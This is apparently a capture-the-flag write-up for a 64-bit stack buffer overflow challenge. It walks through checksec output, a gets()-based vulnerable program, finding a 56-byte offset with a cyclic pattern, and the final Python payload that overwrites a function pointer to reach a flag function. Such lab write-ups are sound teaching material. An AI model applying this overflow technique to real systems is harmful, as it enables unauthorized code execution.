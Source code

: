 # stack2

## Inital Exlporation

``` bash
$ cd /problems/stack2r-64_7_6f3f38bb74a66565cc9342709dadda5e/
$ pwn checksec ./stack2-64 
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

- This is in little endian
- has PIE enabled

## Code analysis

> [!NOTE]
> Full code is in ./stack2.c

``` C
void recalibration() {
    // need to get here to print the flag
}

int main(int argc, char **argv) {
    volatile int (*fp)(); 
    char buffer[{{buffsize}}]; // <-- the buffer we need to exploit and overflow 

    fp = 0; // <-- function pointer called below.

    gets(buffer); // <-- vulnerable function

    if (fp) { 
        printf("Calling function pointer, jumping to %p\n", fp);
        fp();
    }
}
```

## Figuring out offset

> [!NOTE]
> Aestrix are here for visualization purposes, they are not part of either input or output.

- injecting cyclic 100: `**aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaan**aaa*oaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa*`
  - buffer is: `**aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaan**`
  - fp is: `*oaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa*`
- len of cyclic string minus fp is 56; offset is 56

## Getting Recalibration

- we need to know the address of recalibration to inject it into fp

```bash
$ objdump -d /problems/stack2r-64_7_6f3f38bb74a66565cc9342709dadda5e/stack2-64 | grep recalibration

00000000000007aa <recalibration>:
```

- Now, we know the address, and the offset.
- Trying to modify the script with that did not work. Instead, we need to get the address within gdb by doing `p recalibrate` which yields `0x5555555547aa`.
- Plugging this into our script, we get:

``` python
exploit_str = b"A" * offset + p64(0x5555555547aa)
```

## It works! Now what?

- We need to run the file directly, and manually input the exploit string. This is due to the binary running with different permissions than it would get via GDB
- To get the converted string, enter the python3 enviornment and run the code for our exploit stirng crafting. we will get
`b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xaaGUUUU\x00\x00'`

### Try #1

- Piping the string directly into the binary didnt work, so i tried to manually build it with so
- I converted the hexadecimal directly into a little endian expressed bit string

``` bash
$ python3 -u -c 'print(b"A" * 56 + b"\xaa\x47\x55\x55\x55\x55\x00\x00")' | ./stack2-64 
Calling function pointer, jumping to 0x55476161785c4141
Segmentation fault (core dumped)
```

- Doing this, we get issues with terminal input inputting unwanted ascii characters

### Try #2

```bash
python3 -u -c 'import sys; sys.stdout.buffer.write(b"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xaaGUUUU\x00\x00")' | ./stack2-64
```

this works!!!
